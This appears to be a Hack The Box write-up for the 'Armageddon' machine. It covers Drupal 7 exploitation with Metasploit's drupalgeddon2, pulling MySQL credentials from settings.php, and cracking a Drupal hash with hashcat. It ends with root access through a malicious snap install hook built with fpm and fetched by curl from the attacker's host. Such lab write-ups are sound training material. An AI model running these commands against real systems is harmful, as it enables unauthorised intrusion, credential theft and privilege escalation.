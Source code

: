 # Armageddon

![Armageddon](../Images/htb_armageddon_1.png)

**Tools: nmap, metasploit, hashcat, snap, fpm.**

We begin with the nmap scan:  
`nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.233`

![Armageddon](../Images/htb_armageddon_2.png)

Ports 22 and 80 are open, and we can see that the webpage is using Drupal 7 (content manager).

![Armageddon](../Images/htb_armageddon_3.png)

Checking the webpage, there's nothing much to do, and at the source we can confirm that it is indeed using Drupal 7.

![Armageddon](../Images/htb_armageddon_4.png)

A quick search for exploits reveals us some vulnerabilities.

![Armageddon](../Images/htb_armageddon_5.png)

We'll be using the drupalgeddon2 exploit from the msfconsole (Metasploit).

![Armageddon](../Images/htb_armageddon_6.png)

We get a meterpreter shell.  
At this point we have to start a manual enumeration. At the /var/www/html/sites/default we can see a few files, and after reading through the settings.php we are able to find an username and password for the mysql database.

![Armageddon](../Images/htb_armageddon_7.png)

![Armageddon](../Images/htb_armageddon_8.png)

```
drupaluser  
CQHEy@9M*m23gBVj  
```

Now, to interact with mysql we have to spawn a shell from the meterpreter, then proceed to enumerate the database.  
```
shell  
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'show databases';  
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -D drupal -e 'show tables';
```

![Armageddon](../Images/htb_armageddon_9.png)

Now, from the users table, we are able to get a username and its hash.  
`mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -D drupal -e 'select  from users';`

![Armageddon](../Images/htb_armageddon_10.png)

```
brucetherealadmin  
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt  
```

Through a quick search on the hashcat's help, we can see that Drupal 7 has an specific hash for the passwords. And so, we're able to get the user's password:  
```
hashcat --help | grep -i "drupal"  
hashcat -m 7900 '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' /usr/share/wordlists/rockyou.txt --show  
```

![Armageddon](../Images/htb_armageddon_11.png)

We get the password 'booboo'.  
Now we can try to login through SSH and grab the user flag.  
`ssh brucetherealadmin@10.10.10.233`

![Armageddon](../Images/htb_armageddon_12.png)

We can see that the user can run 'snap_install' with sudo permissions. Snap is a package manager, similar to apt and yum.  
`sudo -l`

![Armageddon](../Images/htb_armageddon_13.png)

At [GTFObins](https://gtfobins.github.io/gtfobins/snap/) we can find a way to use this elevated privileges to gather information. When trying to run the commands, though, it will inform us that 'fpm' is not installed. There's a [Github page](https://github.com/jordansissel/fpm) for fpm, where we can also find the [installation guide](https://fpm.readthedocs.io/en/latest/installing.html).   
First make sure that you have ruby and its dependencies:  
`apt-get install ruby ruby-dev rubygems build-essential`

Then through gem install fpm:  
`gem install --no-document fpm`

And if you need, you can also install snap (I already had it installed, so I'm not sure if it is needed):  
`apt install snapd`

Now you can copy the commands from the GTFObins and paste in in the terminal (if it's not copying correctly, first paste it on a text file, then copy again the commands from the file).   
The detail here is that, the default command from GTFObins is 'id', which will just show the user information - I've changed mine to read the root.txt file right away, giving us the root flag.  
```
COMMAND="cat /root/root.txt"  
cd $(mktemp -d)  
mkdir -p meta/hooks  
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install  
chmod +x meta/hooks/install  
fpm -n xxxx -s dir -t snap -a all meta
```

This will create our snap package. Now simply run a python3 http server to send the file to the box.

![Armageddon](../Images/htb_armageddon_14.png)

And then from the box download the package (I did it from the /tmp directory to avoid 'spoiling' the other players).  
`curl <yourIP>/xxxx_1.0_all.snap > my.snap`

And then run the package installer using the command provided at the GTFObins page:  
`sudo snap install my.snap --dangerous --devmode`

If everything works correctly - it might take a few seconds - you'll get your root flag at the end of the text output, just like shown below.

![Armageddon](../Images/htb_armageddon_15.png)
